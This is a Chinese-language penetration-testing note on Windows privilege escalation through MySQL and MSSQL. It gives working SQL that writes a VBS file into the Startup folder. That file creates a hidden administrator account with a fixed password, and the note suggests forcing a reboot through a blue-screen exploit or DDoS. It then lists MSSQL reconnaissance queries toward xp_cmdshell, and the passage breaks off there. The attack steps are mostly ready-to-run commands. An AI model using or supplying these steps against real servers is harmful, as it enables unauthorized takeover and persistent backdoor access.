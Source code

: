 ##### mysql启动项提权

###### 原理

将一段 VBS脚本导入到<span data-type="text" style="color: var(--b3-font-color8);">开机启动项中</span>，如果管理员重启了服务器，那么就会自动调用该脚本，并执行其中的用户添加 及提权命令

###### 利用条件:

1. 上传到目录必须具备可读写的权限

2.  调用的 cmd 也必须有足够的权限

3.  重启服务器可以利用一些可导致服务器蓝屏的EXP，或者DDoS拒绝服务

###### 步骤

1. 如果可以直接上传到启动项目录就不需要使用数据库

    C:\Documents and Settings\All Users\「开始」菜单\程序\启动 目录存在可读写的权限
2. 进入test数据库，并创建一个新的表:

    create table a(cmd text)  // a表名，字段名cmd，text文本类型
3. 在表中插入数据

    ```sql
    insert into a values("set wshshell=createobject(""wscript.shell"")"); 
    insert into a values("a=wshshell.run(""cmd.exe /c net user icg 123.com /add"" 0)"); 
    insert into a values("b=wshshell.run(""cmd.exe /c net localgroup administrators icg /add"",0)");
    ```

4. 输出表为一个 VBS 的脚本文件 

    select * from a into dumpfile "C:\Documents and Settings\Administrator\「开始」菜单\程序启动\1.vbs"
5. 利用其他手段重启电脑

##### MSSQL xp_cmdshell提权

1. 连接数据库之后
2. 查看相干信息

    ```sql
    --查看当前版本:
    select @@version 
    --判断当前是否为sa:
    select is_srvrolemember('sysadmin') 
    --判断是否有public权限，可以爆破表:
    select is_srvrolemember('public') 
    --判断当前用户写文件、读文件的权限:
    select is_srvrolemember('db_owner')
    ```

3. 查看数据库中是否有 xp_cmdshell 扩展存储插件,返回值为 1则说明该数据库中有插件     MSSQL使用xp_cmdshell

    ```sql
    select count(*) from master.dbo.sysobjects where xtype='x'and name='xp cmdshell';
    ```
